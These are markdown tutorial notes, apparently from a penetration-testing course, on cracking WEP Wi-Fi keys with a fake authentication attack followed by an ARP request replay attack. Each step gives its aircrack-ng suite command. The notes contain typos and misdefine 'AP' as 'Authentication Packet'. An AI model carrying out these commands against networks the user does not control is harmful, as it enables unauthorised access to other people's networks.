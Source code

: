 - # Fake Authentication Attack

## Method 2:  WEP Cracking for non busy WEP

Problems:
- The network is not busy
- Because of the lack of enough data it would take a lot of time to crak WEP networks in the traditional way.

Solution:
- Force the AP to generate new IVs (initialization Vectors).
- Assiciate with the AP before lauching the attack.

**Implementation : Fake Authentication attack**

1.  We first need to associate with the network (*Known as arpreplay*)

`airodump-ng --bssid ::::: --channel __ --write arpreplay wlan0`

2. Now we'll use a fake authentication

`aireplay-ng --fakeauth 0 -a ::::: -h :::::: wlan0`

--fakeauth for the fake authentication, 0 because we want to do it only once, -a to paste the target network we want to use and -h for the MAC address of the wireless adapter (*first 6 pairs*) (3. can be found using ifconfig and copy the first 6 pairs) and replace the '-' with ':' 

**IMPORTANT TIP:  *Run 1,2,3 on different terminals simultaneously* **


The moment we run aireplay-ng on the middle terminal, the AUTH on the first terminal will show up to be an open network

**Now we are associated with the network, meaning that we can communicate with it** 

- ## ARP Request replay attack (Most reliable method)
- Now that we are associated with this network, we can start communicating with it, meaning that we can force the router/network to generate new IVs. 

### Working of an ARP Request Replay attack:

- Wait for an ARP packet (a special type of packet)
- Capture it and replay it (retransmit it).
- This causes the AP to produce another packet with a new IV 
- Keep doing this until we have enough IVs to crack the key

*Note: AP - Authentication Packet*

> To run an arpreplay attack run the following command:
> `aireplay-ng --arpreplay -b ::::: -h :::::: wlan0`
> After running this command wait for sometime
> `aircrack-ng arpreplay-01.cap`

*Note: The airodump-ng needs to be running in one terminal*

**The network key is cracked !**